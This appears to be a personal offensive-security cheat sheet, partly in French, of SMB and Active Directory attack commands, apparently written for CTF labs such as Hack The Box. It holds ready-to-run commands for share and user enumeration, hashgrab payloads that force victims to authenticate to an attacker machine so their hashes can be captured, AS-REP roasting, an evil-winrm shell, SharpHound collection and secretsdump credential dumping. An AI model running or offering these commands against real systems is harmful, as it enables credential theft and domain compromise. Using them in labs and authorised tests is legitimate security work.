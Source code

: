 
# SMB
```bash
nxc smb $ip
```
## Hashgrab
Generates scf, url & lnk payloads to put onto a smb share. These force authentication to an attacker machine in order to grab hashes (for example with responder).
```bash
python3 hashgrab.py $ip <output>
```
## liste les shares
```bash
nxc smb $ip --shares
```
### with creds
```bash
crackmapexec smb $ip -u 'user' -p 'PASS' --shares
```
## liste users
```bash
nxc smb $ip -u 'guest' -p '' --rid-brute 10000
````

## download files
```bash
nxc smb $ip -u 'guest' -p '' -M spider_plus -o DOWNLOAD_Flag=True
```

## Creer un serveur smb
```
impacket-smbserver <sharename> $(pwd) -smb2support -user <username> -password <pass>
```
```
impacket-smbserver -ip $ip -port 445 shareName .
```

# AD
#ExploitAD
## AS-Rep ROATING
### liste users dont la pré oauth est désactivé
```bash
GetNPUsers -dc-ip $ip <domainNam>/
```
### ask a TGT in John format
```bash
impacket-GetNPUsers -request 'domainName/' -format john -outputfile hash -dc-ip $ip
```

## EvilWinrm
```bash
 evil-winrm -i htb -u 'user' -p 'pass'
```
*Evil-WinRM* PS C:\\Users\\username\\Documents> 
```bash
.\SharpHound.exe --CollectionMethods All --LdapUsername 'username' --LdapPassword 'pass' --Domain 'domiain.local' --ZipFileName ad.zip --OutputDirectory C:\Users\username\Documents\
```

```bash
impacket-secretsdump domain.local/username:pass@$ip
```

